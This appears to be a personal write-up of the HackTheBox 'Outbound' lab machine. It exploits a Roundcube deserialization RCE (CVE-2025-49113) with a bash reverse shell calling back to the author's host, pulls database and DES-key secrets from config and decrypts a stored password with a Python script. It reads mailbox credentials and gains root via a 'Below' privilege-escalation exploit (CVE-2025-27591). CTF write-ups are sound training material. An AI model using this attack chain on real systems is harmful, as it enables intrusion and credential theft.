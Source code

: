 ```yaml
---
title: "HTB Outbound - pwn"
date: 2025-07-18
categories: ["HackTheBox", "Writeup"]
tags: ["Roundcube", "CVE", "RCE", "Privesc", "First-Blood"]
---
```


solved at 2025-07-17
## First Things First - Recon Time

started with the usual nmap scan 

```bash
nmap -sV -sC -T4 -Pn 10.10.11.77 -oN nmap_scan
```

got back:

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 
80/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://mail.outbound.htb/
```

okay so we got ssh and some web service that redirects to `mail.outbound.htb`. quick hosts file update:

```bash
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

## Nuclei 🔥

before even opening burp i decided to throw nuclei at it :

```bash
nuclei -u http://mail.outbound.htb/
```

AND BOOM:

```
[CVE-2025-49113:version_check] [http] [critical] http://mail.outbound.htb/ ["Roundcube Version: 1.6.10"]
```


I looked it up and CVE-2025-49113 is some post-auth RCE in Roundcube via PHP object deserialization. so we can exploit it as long as we can login 

and guess what? we already have creds! tyler:LhKL1o9Nm3X2

## Getting That Shell 💀

i searched " CVE-2025-49113 PoC " and found the exploit on github (thanks hakaioffsec):

```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit
```

set up my listener on another terminal:

```bash
nc -lvnp 4444
```

fired the exploit:

```bash
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/MY-HTB-IP/4444 0>&1'"
```

```
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
```

and just like that... **WE'RE IN!** 🎯

```bash
www-data@mail:/$ whoami
www-data
```

## From www-data to Tyler

switched to tyler since we had the password:

```bash
su tyler
# Password: LhKL1o9Nm3X2
```

## Database Hunting 🕵️

started poking around the roundcube config files:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

found some juicy stuff:

```php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

database creds! let's see what's in there:

```bash
mysql -u roundcube -pRCDBPass2025 -e 'USE roundcube; SELECT * FROM users;'
```

found 3 users: jacob, mel, and tyler. but the interesting part was the session table:

```bash
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e 'use roundcube;select * from session;' -E
```

there's this massive base64 blob in the vars column. decoded it and found jacob's encrypted password: `L7Rv00A8TuwJAr67kITxxcSgnIk25Am/`

## Time to Decrypt 🔐

remembered the DES key from earlier. we can write a python script and use it to decrypt the password :

```python
from base64 import b64decode
from Crypto.Cipher import DES3

enc_b64 = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
des_key = b'rcmail-!24ByteDESkey*Str'

data = b64decode(enc_b64)
iv = data[:8]
ciphertext = data[8:]

cipher = DES3.new(des_key, DES3.MODE_CBC, iv)
plaintext = cipher.decrypt(ciphertext)

pad_len = plaintext[-1]
if isinstance(pad_len, str):
    pad_len = ord(pad_len)
plaintext = plaintext[:-pad_len]

print("Decrypted:", plaintext.decode())
```

ran it and got: 
```bash
python decrypt.py
Decrypted: 595mO8DmwGeD
```

```

switched to jacob:

```bash
su jacob
# Password: 595mO8DmwGeD
```

## Reading Jacob's Mail 📧

checked out jacob's mailbox:

```bash
cat ~/mail/INBOX/jacob
```

found two emails. first one from tyler:

```
Subject: Important Update
Password: gY4Wr3a1evp4
```

second one from mel talking about some resource monitoring tool called "Below"

## SSH Time

used the new password to ssh:

```bash
ssh jacob@10.10.11.77
# Password: gY4Wr3a1evp4
```

grabbed the user flag:

```bash
cat ~/user.txt
```

**USER FLAG ACQUIRED!** 🚩

## Privesc - The Fun Part

found an exploit.py file in jacob's home directory. looked at it and  found out its an exploit for CVE-2025-27591 targeting the Below monitoring tool.

checked the glibc version:

```bash
ldd --version
# 2.39 - vulnerable!
```

ran the exploit:

```bash
python3 exploit.py
```

```
[*] Checking for CVE-2025-27591 vulnerability...
[+] /var/log/below is world-writable.
[+] Target is vulnerable.
[*] Starting exploitation...
[+] Payload appended successfully.
root@outbound:/home/jacob#
```

**NOW WE'RE ROOT!** 🔥🔥🔥

```bash
cat /root/root.txt
```

**Machine ROOTED!** 👑

---


honestly this was way easier than i expected.

might do more writeups if people actually read this. next time gonna try a harder machine.

peace out ✌️

_ps: if you're reading this and i haven't posted anything in months, remind me cuz i probably got distracted by something else lmao_

BTW THIS WILL BE POSTED AFTER THE MACHINE IS RETIRED
